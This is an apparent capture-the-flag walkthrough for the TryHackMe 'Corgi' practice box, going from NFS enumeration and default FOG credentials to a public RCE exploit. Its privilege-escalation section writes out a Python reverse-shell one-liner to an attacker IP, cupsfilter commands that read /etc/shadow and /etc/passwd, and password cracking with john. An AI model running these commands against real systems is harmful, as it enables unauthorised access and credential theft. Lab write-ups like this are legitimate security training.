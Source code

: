 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.

![showmount](Images/showmount.png)

looks like there are 2 shares we can mount, lets use mount one of them and have a look around

![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'

![FOG documentation](Images/FOG_1.png)

And going to `<TARGET-IP>/fog` takes us to a login page

![FOG login](Images/FOG_2.png)

Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.

![FOG default creds](/Images/FOG_3.png)

Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.

![search on exploitdb](Images/exploit_1.png)

Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811

![exploit contents](Images/exploit_2.png)

Lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.

![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)

Running the hostname command to test if file upload worked

![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)

And stabilise the shell

![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![available binaries](Images/binaries.png)

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)

Lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

![cracking the hashes](Images/cracked.png)

So now we have a login, lets `su` into the new user and see what permissions they have.sudo 

![checking sudo -l](Images/sudo.png)

It looks like they can run any command, lets try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)